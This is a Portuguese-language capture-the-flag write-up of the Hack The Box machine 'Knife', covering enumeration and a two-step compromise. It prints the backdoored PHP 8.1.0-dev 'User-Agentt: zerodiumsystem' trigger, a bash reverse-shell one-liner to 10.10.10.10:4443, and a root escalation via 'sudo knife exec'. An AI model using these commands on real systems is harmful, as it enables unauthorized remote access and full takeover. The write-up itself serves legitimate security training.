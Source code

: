```yaml
---
title: "Walktrough: HTB Knife"
namespace: htb-knife
language: pt-BR
category: Walkthrough
tags:
   - HackTheBox
   - HTB Easy
   - HTB Linux
date: 2021-08-28 12:00:00
header:
   teaser: https://i.imgur.com/U5A7c9y.png
   og_image:   https://i.imgur.com/U5A7c9y.png
redirect_from: /writeup/2021/08/htb-knife
---
```


Olá!

A máquina desta semana será **Knife**, outra máquina Linux classificada como fácil do [Hack The Box](https://www.hackthebox.eu/), criada por [MrKN16H](https://app.hackthebox.eu/users/98767).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as máquinas são aposentadas.
{: .notice--info}

![HTB Knife](https://i.imgur.com/3IO9vBj.png){: .align-center}

Esta máquina foi bem simples, onde você deve prestar atenção aos detalhes (no caso do webserver vulnerável) e sempre ir pelo caminho mais simples como abusar das permissões de `sudo` que o usuário já possui.

Espero que gostem!

## Enumeração

Como de costume, iniciei com um scan rápido do `nmap` para verificar os serviços publicados nesta máquina:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 17:50 -03
Nmap scan report for 10.10.10.242
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```

### 80/TCP - Serviço HTTP

Acessando o website podemos ver uma simples página institucional de uma companhia do setor de saúde, conforme abaixo:

![HTB Knife - HTTP Service](https://i.imgur.com/oAbssxJ.png){: .align-center}

Após acessar a página, obtido algumas informações adicionais, os componentes utilizados e qual o webserver em execução com ajuda do `whatweb` e o que chamou a atenção foi o cabeçalho `X-Powered-By` que aponta para uma versão de desenvolvimento do **PHP 8.1.0**.

```bash
$ whatweb --color=never -a 3 10.10.10.242 | tee whatweb.txt
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], , Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Acesso inicial e User flag

Como versões de desenvolvimento frequentemente contém vulnerabilidades, decidi buscar a respeito da mesma com `searchsploit` e encontrei uma vulnerabilidade de execução remota de código (RCE - *Remote Code Execution*) conforme listado abaixo:

```bash
$ searchsploit "8.1.0-dev"
---------------------------------------------------------------------- ----------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ----------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                   | php/webapps/49933.py
---------------------------------------------------------------------- ----------------------------
Shellcodes: No Results
```

Esta vulnerabilidade consiste em um backdoor adicionado em alguns commits por contas comprometidas no código fonte do PHP onde, sempre que um request contém o cabeçalho `User-Agentt: "zerodiumsystem('cmd');"` é enviado, seu conteúdo é interpretado e executado, neste caso o conteúdo `cmd`. O exploit disponível simula um shell de modo não interativo e, a partir dele, iniciei um shell reverso interativo com o payload `bash -c 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1'` que nos retornou uma sessão a partir da conta do usuário **james**, onde encontramos o arquivo `user.txt` e foi possível ler seu conteúdo, obtendo a primeira flag.

```bash
james@knife:~$ id && hostname
uid=1000(james) gid=1000(james) groups=1000(james)
knife
james@knife:~$ cat user.txt
<redacted>
```

## Root flag

Como de costume, iniciei com o comando `sudo -l` e tive sorte mais uma vez, vendo o seguinte output:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
   (root) NOPASSWD: /usr/bin/knife              
```

Realizando uma busca rápida a respeito do binário, encontrei que se trata de parte da solução de gestão de configuração [Chef](https://www.chef.io/) e, de acordo com a página [knife \| GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo), poderia ser utilizada facilmente para escalar privilégio como root, conforme abaixo, nos permitindo obter a última flag :smiley:

```bash
james@knife:~$ sudo /usr/bin/knife --help                                                                                 Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

[...]

james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# cat root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
